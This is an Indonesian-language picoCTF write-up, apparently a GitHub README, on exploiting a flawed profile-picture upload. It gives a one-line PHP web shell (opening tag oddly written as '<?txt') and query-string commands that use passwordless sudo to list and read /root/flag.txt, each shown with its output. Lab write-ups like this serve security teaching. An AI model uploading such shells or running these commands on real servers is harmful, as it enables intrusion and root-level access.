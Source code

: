 # 🐚 picoCTF - File Upload RCE Exploit

## 📝 Deskripsi Soal

> A developer has added profile picture upload functionality to a website.  
> However, the implementation is flawed, and it presents an opportunity for you.  
> Your mission is to locate the file upload area and retrieve the hidden flag in `/root`.

![Upload](upload.png)
---

## 💥 RCE - Remote Code Execution

RCE (Remote Code Execution) adalah celah keamanan yang memungkinkan penyerang menjalankan perintah (command) arbitrer di server dari jarak jauh.

Dalam konteks ini, kita akan mengeksploitasi fitur upload foto profil untuk mengunggah file PHP berisi payload command execution.

---

## ⚙️ Syarat Terjadinya Eksploitasi

Agar serangan ini berhasil, 3 kondisi berikut harus terpenuhi:

1. Terdapat fitur upload file (foto).
2. File yang di-upload disimpan di lokasi yang dapat kita akses (misalnya: /uploads/).
3. File tersebut dapat dieksekusi sebagai script server (misalnya file .php di server PHP).

---

## 🧪 Langkah Eksploitasi

1. Siapkan file PHP berikut dan beri nama sembarang, misalnya: shell.php

    ```php
    <?txt system($_GET['cmd']); ?> (harus php)
    ```

2. Upload file ini melalui form upload yang tersedia di web.

3. Akses file tersebut di URL yang sesuai pathnya di ganti dengan yang udah diketahui. Contoh:

    ```
    http://<target>/uploads/shell.php?cmd=whoami
    ```

4. Uji apakah command berhasil dijalankan. Output:

    ```
    www-data
    ```

5. Cek file yang ada di direktori saat ini:

    ```
    ?cmd=ls
    ```

    Output:

    ```
    shell.php
    ```

6. Coba lihat hak akses user www-data:

    ```
    ?cmd=sudo -l
    ```

    Output:

    ```
    Matching Defaults entries for www-data on challenge:
        env_reset, mail_badpass, secure_path=...

    User www-data may run the following commands on challenge:
        (ALL) NOPASSWD: ALL
    ```

    Artinya user www-data dapat menjalankan sudo command tanpa password.

7. Lanjutkan eksplorasi ke direktori root:

    ```
    ?cmd=sudo ls /root
    ```

    Output:

    ```
    flag.txt
    ```

8. Baca isi flag:

    ```
    ?cmd=sudo cat /root/flag.txt
    ```

    Output (misal):

    ```
    picoCTF{example_flag_here}
    ```

---

## 🔐 Kenapa Menggunakan PHP?

File PHP memungkinkan kita menjalankan perintah server-side dengan fungsi seperti system(), exec(), shell_exec(), dll. Karena web server (Apache/Nginx) biasanya mengizinkan eksekusi file PHP, ini menjadi pilihan paling umum untuk eksploitasi upload.

---

## ⚠️ Disclaimer

Write-up ini dibuat untuk tujuan edukasi dan pembelajaran keamanan siber.  
Jangan gunakan teknik ini pada sistem yang bukan milik Anda tanpa izin.  
Jika ada kekeliruan dalam penjelasan, mohon dimaklumi.
